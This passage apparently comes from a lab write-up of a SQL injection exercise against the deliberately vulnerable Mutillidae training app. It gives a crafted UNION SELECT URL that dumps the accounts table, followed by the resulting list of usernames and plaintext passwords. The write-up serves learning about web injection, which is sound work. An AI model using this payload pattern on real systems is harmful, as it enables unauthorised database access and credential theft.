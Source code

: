 * From here i going to select the username, password and isadmin columns.

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* We recieved the following information back.

```
Username=noone
Password=noone
Signature=noone

Username=noone
Password=noone
Signature=noone

Username=admin
Password=adminpass
Signature=TRUE

Username=adrian
Password=somepassword
Signature=TRUE

Username=john
Password=monkey
Signature=FALSE

Username=jeremy
Password=password
Signature=FALSE

Username=bryce
Password=password
Signature=FALSE

Username=samurai
Password=samurai
Signature=FALSE

Username=jim
Password=password
Signature=FALSE

Username=bobby
Password=password
Signature=FALSE

Username=simba
Password=password
Signature=FALSE

Username=dreveil
Password=password
Signature=FALSE

Username=scotty
Password=password
Signature=FALSE

Username=cal
Password=password
```